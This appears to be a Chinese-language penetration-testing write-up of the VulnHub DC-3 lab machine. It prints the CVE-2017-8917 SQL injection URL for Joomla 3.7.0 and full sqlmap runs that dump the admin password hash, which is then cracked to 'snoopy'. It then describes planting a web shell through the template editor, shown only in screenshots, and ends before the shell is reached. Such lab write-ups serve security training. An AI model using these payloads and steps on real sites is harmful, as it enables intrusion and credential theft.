# DC3:渗透实战

- 靶机下载地址：

```
https://vulnhub.com/entry/dc-32,312/
```

- 攻击机：192.168.200.151

### 主机发现

- 使用nmap扫描网段，对照靶机MAC后发现192.168.200.153是DC3的IP



- 继续使用nmap对该主机进行详细扫描

  

### 端口详情

| PORT   | STATE | SERVICE | VERSION                       |
| ------ | ----- | ------- | ----------------------------- |
| 80/tcp | open  | http    | Apache httpd 2.4.18((Ubuntu)) |

- 既然开放了web服务那么直接进入目标web界面

  

### 指纹识别

- 没有什么信息，进行指纹识别看看，发现该cms界面使用的是`Joomla`

  

### 漏洞扫描

- 直接使用专用扫描器`joomscan`扫一下

```
                    
┌──(kali💋kali)-[~]
└─$ joomscan -u http://192.168.200.153/

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://192.168.200.153/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://192.168.200.153/administrator/components
http://192.168.200.153/administrator/modules
http://192.168.200.153/administrator/templates
http://192.168.200.153/images/banners                                                  
[+] Checking apache info/status files                                                   
[++] Readable info/status files are not found                                          
[+] admin finder                                                                      
[++] Admin page : http://192.168.200.153/administrator/                                
[+] Checking robots.txt existing                                                         
[++] robots.txt is not found                                                          
[+] Finding common backup files name                                                                                                                      
[++] Backup files are not found                                                                                                                          
[+] Finding common log files name                                                                                                                            
[++] error log is not found                                                            
[+] Checking sensitive config.php.x file                                                                                                                     
[++] Readable config files are not found                                                                                                                   
Your Report : reports/192.168.200.153/                               
```


- 有用信息：

  ```
  joomla版本：
  [+] Detecting Joomla Version
  [++] Joomla 3.7.0
  后台界面：
  [++] Admin page : http://192.168.200.153/administrator/    
  ```

  

- 发现是`Joomla 3.7.0`版本，直接在漏洞库中查找一下，发现有个[(CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)sql注入漏洞

  

### 漏洞验证

- 网上找一下该漏洞的利用方法后发现漏洞注入点为

```
http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)%20--+
```


- 验证一下该漏洞，发现验证成功

  

### 漏洞利用

- 使用sqlmap跑一下

  ```
  ┌──(kali💋kali)-[~/tools]
  └─$ sqlmap -u "http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)" -p "list[fullordering]" --dbs
          ___
         __H__
   ___ ___[)]_____ ___ ___  {1.6.12#stable}
  |_ -| . [(]     | .'| . |
  |___|_  [.]_|_|_|__,|  _|
        |_|V...       |_|   https://sqlmap.org
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 06:47:55 /2024-03-09/
  GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
  sqlmap identified the following injection point(s) with a total of 1905 HTTP(s) requests:
  ---
  Parameter: list[fullordering] (GET)
      Type: error-based
      Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2237,CONCAT(0x2e,0x717a787a71,(SELECT (ELT(2237=2237,1))),0x7162716271),2250))
  
      Type: time-based blind
      Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6261 FROM (SELECT(SLEEP(5)))tlXA)
  ---
  [06:48:42] [INFO] the back-end DBMS is MySQL
  web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
  web application technology: Apache 2.4.18
  back-end DBMS: MySQL >= 5.1
  [06:48:42] [INFO] fetching database names
  [06:48:42] [INFO] retrieved: 'information_schema'
  [06:48:42] [INFO] retrieved: 'joomladb'
  [06:48:42] [INFO] retrieved: 'mysql'
  [06:48:42] [INFO] retrieved: 'performance_schema'
  [06:48:42] [INFO] retrieved: 'sys'
  available databases [5]:
  [*] information_schema
  [*] joomladb
  [*] mysql
  [*] performance_schema
  [*] sys
  
  [06:48:42] [WARNING] HTTP error codes detected during run:
  500 (Internal Server Error) - 1880 times
  [06:48:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.200.153'
  [06:48:42] [WARNING] your sqlmap version is outdated
  
  [*] ending @ 06:48:42 /2024-03-09/
  
  ```

  

- 查看当前数据库，发现是`joomladb`

  ```
  ┌──(kali💋kali)-[~/tools]
  └─$ sqlmap -u "http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)" -p "list[fullordering]" --current-db
          ___
         __H__                                                                                                                                                 
   ___ ___[.]_____ ___ ___  {1.6.12#stable}                                                                                                                    
  |_ -| . [']     | .'| . |                                                                                                                                    
  |___|_  [)]_|_|_|__,|  _|                                                                                                                                    
        |_|V...       |_|   https://sqlmap.org                                                                                                                 
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 06:51:21 /2024-03-09/
  
  [06:51:21] [WARNING] it appears that you have provided tainted parameter values ('list[fullordering]=updatexml(0x3a,concat(1,(select user())),1)') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
  are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
  [06:51:23] [INFO] resuming back-end DBMS 'mysql' 
  [06:51:23] [INFO] testing connection to the target URL
  [06:51:23] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
  you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=sauhggh7rtn...73e30qhee2'). Do you want to use those [Y/n] y
  sqlmap resumed the following injection point(s) from stored session:
  ---
  Parameter: list[fullordering] (GET)
      Type: error-based
      Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2237,CONCAT(0x2e,0x717a787a71,(SELECT (ELT(2237=2237,1))),0x7162716271),2250))
  
      Type: time-based blind
      Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6261 FROM (SELECT(SLEEP(5)))tlXA)
  ---
  [06:51:25] [INFO] the back-end DBMS is MySQL
  web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
  web application technology: Apache 2.4.18
  back-end DBMS: MySQL >= 5.1
  [06:51:25] [INFO] fetching current database
  [06:51:25] [INFO] retrieved: 'joomladb'
  current database: 'joomladb'
  [06:51:25] [WARNING] HTTP error codes detected during run:
  500 (Internal Server Error) - 2 times
  [06:51:25] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.200.153'
  [06:51:25] [WARNING] your sqlmap version is outdated
  
  [*] ending @ 06:51:25 /2024-03-09/
  
  ```

- 再查看joomladb的表名

  ```
  ──(kali💋kali)-[~/tools]
  └─$ sqlmap -u "http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)" -p "list[fullordering]" -D "joomladb" --tables
          ___
         __H__                                                                                                                                                 
   ___ ___["]_____ ___ ___  {1.6.12#stable}                                                                                                                    
  |_ -| . [)]     | .'| . |                                                                                                                                    
  |___|_  [']_|_|_|__,|  _|                                                                                                                                    
        |_|V...       |_|   https://sqlmap.org                                                                                                                 
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 06:55:14 /2024-03-09/
  
  [06:55:14] [WARNING] it appears that you have provided tainted parameter values ('list[fullordering]=updatexml(0x3a,concat(1,(select user())),1)') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
  are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
  [06:55:15] [INFO] resuming back-end DBMS 'mysql' 
  [06:55:15] [INFO] testing connection to the target URL
  [06:55:16] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
  you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=niiu3f0rjst...f9c0c3li74'). Do you want to use those [Y/n] y
  sqlmap resumed the following injection point(s) from stored session:
  ---
  Parameter: list[fullordering] (GET)
      Type: error-based
      Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2237,CONCAT(0x2e,0x717a787a71,(SELECT (ELT(2237=2237,1))),0x7162716271),2250))
  
      Type: time-based blind
      Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6261 FROM (SELECT(SLEEP(5)))tlXA)
  ---
  [06:55:16] [INFO] the back-end DBMS is MySQL
  web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
  web application technology: Apache 2.4.18
  back-end DBMS: MySQL >= 5.1
  Database: joomladb
  [76 tables]
  +---------------------+
  | #__assets           |
  | #__associations     |
  | #__banner_clients   |
  | #__banner_tracks    |
  | #__banners          |
  | #__bsms_admin       |
  | #__bsms_books       |
  | #__bsms_comments    |
  | #__bsms_locations   |
  | #__bsms_mediafiles  |
  | #__bsms_message_typ |
  | #__bsms_podcast     |
  | #__bsms_series      |
  | #__bsms_servers     |
  | #__bsms_studies     |
  | #__bsms_studytopics |
  | #__bsms_teachers    |
  | #__bsms_templatecod |
  | #__bsms_templates   |
  | #__bsms_timeset     |
  | #__bsms_topics      |
  | #__bsms_update      |
  | #__categories       |
  | #__contact_details  |
  | #__content_frontpag |
  | #__content_rating   |
  | #__content_types    |
  | #__content          |
  | #__contentitem_tag_ |
  | #__core_log_searche |
  | #__extensions       |
  | #__fields_categorie |
  | #__fields_groups    |
  | #__fields_values    |
  | #__fields           |
  | #__finder_filters   |
  | #__finder_links_ter |
  | #__finder_links     |
  | #__finder_taxonomy_ |
  | #__finder_taxonomy  |
  | #__finder_terms_com |
  | #__finder_terms     |
  | #__finder_tokens_ag |
  | #__finder_tokens    |
  | #__finder_types     |
  | #__jbsbackup_timese |
  | #__jbspodcast_times |
  | #__languages        |
  | #__menu_types       |
  | #__menu             |
  | #__messages_cfg     |
  | #__messages         |
  | #__modules_menu     |
  | #__modules          |
  | #__newsfeeds        |
  | #__overrider        |
  | #__postinstall_mess |
  | #__redirect_links   |
  | #__schemas          |
  | #__session          |
  | #__tags             |
  | #__template_styles  |
  | #__ucm_base         |
  | #__ucm_content      |
  | #__ucm_history      |
  | #__update_sites_ext |
  | #__update_sites     |
  | #__updates          |
  | #__user_keys        |
  | #__user_notes       |
  | #__user_profiles    |
  | #__user_usergroup_m |
  | #__usergroups       |
  | #__users            |
  | #__utf8_conversion  |
  | #__viewlevels       |
  +---------------------+
  
  [06:55:18] [WARNING] HTTP error codes detected during run:
  500 (Internal Server Error) - 93 times
  [06:55:18] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.200.153'
  [06:55:18] [WARNING] your sqlmap version is outdated
  
  [*] ending @ 06:55:18 /2024-03-09/
  
  ```

  

- 盲猜`#__users`表里存的是所有用户的用户名密码，直接查询所有列,提示需要做爆破，直接y回车就好

  ```
  ──(kali💋kali)-[~/tools]
  └─$ sqlmap -u "http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)" -p "list[fullordering]" -D "joomladb"  -T "#__users" --columns
          ___
         __H__                                                                                                                                                 
   ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                    
  |_ -| . [)]     | .'| . |                                                                                                                                    
  |___|_  [']_|_|_|__,|  _|                                                                                                                                    
        |_|V...       |_|   https://sqlmap.org                                                                                                                 
  
  
  Database: joomladb
  Table: #__users
  [6 columns]
  +----------+-------------+
  | Column   | Type        |
  +----------+-------------+
  | email    | non-numeric |
  | id       | numeric     |
  | name     | non-numeric |
  | params   | non-numeric |
  | password | non-numeric |
  | username | non-numeric |
  +----------+-------------+
  
  [07:00:02] [WARNING] HTTP error codes detected during run:
  500 (Internal Server Error) - 2646 times
  [07:00:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.200.153'
  [07:00:02] [WARNING] your sqlmap version is outdated
  
  [*] ending @ 07:00:02 /2024-03-09/
  
                                                                          
  ```

- 看到了username和password，那么直接查询该表内容

  ```
  ┌──(kali💋kali)-[~/tools]
  └─$ sqlmap -u "http://192.168.200.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)" -p "list[fullordering]" -D "joomladb"  -T "#__users" -C "username,password" --dump
          ___
         __H__                                                                                                                                                 
   ___ ___[,]_____ ___ ___  {1.6.12#stable}                                                                                                                    
  |_ -| . ["]     | .'| . |                                                                                                                                    
  |___|_  [(]_|_|_|__,|  _|                                                                                                                                    
        |_|V...       |_|   https://sqlmap.org                                                                                                                 
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 07:02:24 /2024-03-09/
  
  [07:02:24] [WARNING] it appears that you have provided tainted parameter values ('list[fullordering]=updatexml(0x3a,concat(1,(select user())),1)') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
  are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
  [07:02:27] [INFO] resuming back-end DBMS 'mysql' 
  [07:02:27] [INFO] testing connection to the target URL
  [07:02:27] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
  you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=4o88a3hec3c...jud2st4ov5'). Do you want to use those [Y/n] y
  sqlmap resumed the following injection point(s) from stored session:
  ---
  Parameter: list[fullordering] (GET)
      Type: error-based
      Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2237,CONCAT(0x2e,0x717a787a71,(SELECT (ELT(2237=2237,1))),0x7162716271),2250))
  
      Type: time-based blind
      Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
      Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6261 FROM (SELECT(SLEEP(5)))tlXA)
  ---
  [07:02:28] [INFO] the back-end DBMS is MySQL
  web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
  web application technology: Apache 2.4.18
  back-end DBMS: MySQL >= 5.1
  [07:02:28] [INFO] fetching entries of column(s) 'password,username' for table '#__users' in database 'joomladb'
  [07:02:28] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
  [07:02:28] [INFO] retrieved: 'admin'
  Database: joomladb
  Table: #__users
  [1 entry]
  +----------+--------------------------------------------------------------+
  | username | password                                                     |
  +----------+--------------------------------------------------------------+
  | admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
  +----------+--------------------------------------------------------------+
  
  [07:02:28] [INFO] table 'joomladb.`#__users`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.200.153/dump/joomladb/#__users.csv'
  [07:02:28] [WARNING] HTTP error codes detected during run:
  500 (Internal Server Error) - 6 times
  [07:02:28] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.200.153'
  [07:02:28] [WARNING] your sqlmap version is outdated
  
  
  ```

  

- 但是这个密码是个密文，直接用john爆破一下子

  

| 账号  | 密码   |
| ----- | ------ |
| admin | snoopy |


- 直接去后台登录

  



### GetShell

- 经过寻找，最终在`Extensions->Templates->Templates`的`Beez3Detail and Files`中发现可以直接修改网站后台文件

  

- 那么直接在html目录下创建一个木马文件

  

- 然后就是找木马文件的路径，根据提示可以看到该文件是存储在html目录下的，而html目录在template下的beez3中。



- 尝试几次后还是决定搜索一下...发现是模板都是存在`templates`目录下的

